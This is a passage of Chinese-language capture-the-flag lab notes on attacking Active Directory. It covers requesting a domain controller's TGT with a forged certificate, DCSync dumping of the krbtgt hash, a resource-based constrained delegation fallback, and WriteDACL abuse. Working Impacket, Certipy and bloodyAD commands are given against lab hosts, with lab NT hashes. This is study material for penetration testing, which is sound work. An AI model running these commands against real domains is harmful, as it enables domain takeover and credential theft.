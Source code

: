 ![img](file:///F:/LocalCTF/ADCS%E6%94%BB%E5%87%BB%E7%AC%94%E8%AE%B0%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20220814190449-ea03a9e8-1bc0-1.png)

用申请的证书请求DC$的TGT:

```bash
certipy auth -pfx dc2012.pfx -dc-ip 192.168.149.133
```

![img](file:///F:/LocalCTF/ADCS%E6%94%BB%E5%87%BB%E7%AC%94%E8%AE%B0%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20220814190528-0130e22a-1bc1-1.png)

用DC$的nthash去DCSync:

```bash
secretsdump.py red.lab/'DC2012$'@192.168.149.133 -just-dc-user red/krbtgt -hashes :nthash
```

![img](file:///F:/LocalCTF/ADCS%E6%94%BB%E5%87%BB%E7%AC%94%E8%AE%B0%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20220814191054-c3d3f042-1bc1-1.png)
如果使用`certipy`请求TGT失败，还可以设置RBCD来攻击：

```bash
openssl pkcs12 -in dc2012.pfx -out dc2012.pem -nodes
python3 bloodyAD.py -c ':dc2012.pem' -u 'win$' --host 192.168.149.133 setRbcd 'win$' 'DC2012$'
getST.py red.lab/'win$':'win@123456' -spn LDAP/DC2012.red.lab -impersonate administrator -dc-ip 192.168.149.133
export KRB5CCNAME=administrator.ccache
secretsdump.py -k dc2012.red.lab -just-dc-user red/krbtgt
```

![img](file:///F:/LocalCTF/ADCS%E6%94%BB%E5%87%BB%E7%AC%94%E8%AE%B0%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20220814191543-70385760-1bc2-1.png)

![img](file:///F:/LocalCTF/ADCS%E6%94%BB%E5%87%BB%E7%AC%94%E8%AE%B0%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20220814191650-98385db4-1bc2-1.png)

### WriteDACL提权

#### 写DCSync

若Exchange机器账户默认对域内成员具有 WriteDACL 权限，这个权限允许身份修改指定对象ACL，所以可以给Zhangtong修改个DCSync，然后就可以抓域控哈希了。

给Zhangtong修改个DCSync

[bloodyAD.py](F:\ctfTools\bloodyAD-AD提权工具\bloodyAD.py)

```bash
python bloodyAD -d xiaorang.lab -u 'XIAORANG-EXC01$' -p :b0d89dce8c89f4a43758961e8f782174 --host 172.22.3.2 add dcsync Zhangtong
```

指定用户来dumphash

[secretsdump.py](F:\ctfTools\impacket\examples\secretsdump.py)

```bash
python secretsdump.py xiaorang.lab/Zhangtong@172.22.3.2 -hashes :22c7f81993e96ac83ac2f3f1903de8b4 -just-dc-ntlm
```

#### 写RBCD
